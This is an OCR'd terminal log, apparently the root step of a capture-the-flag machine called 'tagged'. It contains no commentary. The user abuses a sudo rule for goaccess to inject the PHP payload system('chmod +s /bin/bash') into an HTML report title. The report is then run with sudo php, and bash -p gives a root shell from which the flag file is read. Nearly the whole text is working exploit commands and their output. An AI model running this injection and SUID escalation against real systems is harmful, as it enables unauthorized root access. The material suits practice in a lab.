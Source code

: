 ```bash
.....
on (_) {if (!arguments.length) return yValue1;yValue1 = _;return chart;};return chart;}</script><script src='exp.js'></script></body></html>shyla@tagged:/tmp$ whoami;id
whoami;id
whoami;id
shyla
uid=1001(shyla) gid=1001(shyla) grupos=1001(shyla)
shyla@tagged:/tmp$ sudo -u uma /usr/bin/goaccess -f exp.log -o /var/www/html/report.html --html-report-title="<?php system('chmod +s /bin/bash');?>"
sudo -u uma /usr/bin/goaccess -f exp.log -o /var/www/html/report.html --html-report-title="<?php system('chmod +s /bin/bash');?>"
<eport-title="<?php system('chmod +s /bin/bash');?>"

shyla@tagged:/tmp$ sudo /usr/bin/php /var/www/html/report.php
sudo /usr/bin/php /var/www/html/report.php
sudo /usr/bin/php /var/www/html/report.php
.....
return chart;};chart.y1 = function (_) {if (!arguments.length) return yValue1;yValue1 = _;return chart;};return chart;}</script></body></html>shyla@tagged:/tmp$ ls -l /bin/bash
ls -l /bin/bash
ls -l /bin/bash
-rwsr-sr-x 1 root root 1234376 mar 27  2022 /bin/bash
shyla@tagged:/tmp$ bash -p
bash -p
bash -p
bash-5.1# whoami;id
whoami;id
whoami;id
root
uid=1001(shyla) gid=1001(shyla) euid=0(root) egid=0(root) grupos=0(root),1001(shyla)
bash-5.1# cd /root;ls -la
cd /root;ls -la
cd /root;ls -la
total 32
drwx------  4 root root 4096 nov 14  2022 .
drwxr-xr-x 18 root root 4096 nov 14  2022 ..
lrwxrwxrwx  1 root root    9 nov 14  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 abr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 nov 14  2022 .cache
drwxr-xr-x  3 root root 4096 nov 14  2022 .local
-rw-r--r--  1 root root  161 jul  9  2019 .profile
-rw-------  1 root root   12 nov 14  2022 root.txt
-rw-r--r--  1 root root  161 nov 14  2022 .wget-hsts
bash-5.1# cat root.txt
cat root.txt
cat root.txt
HMVrep0rtz!
```

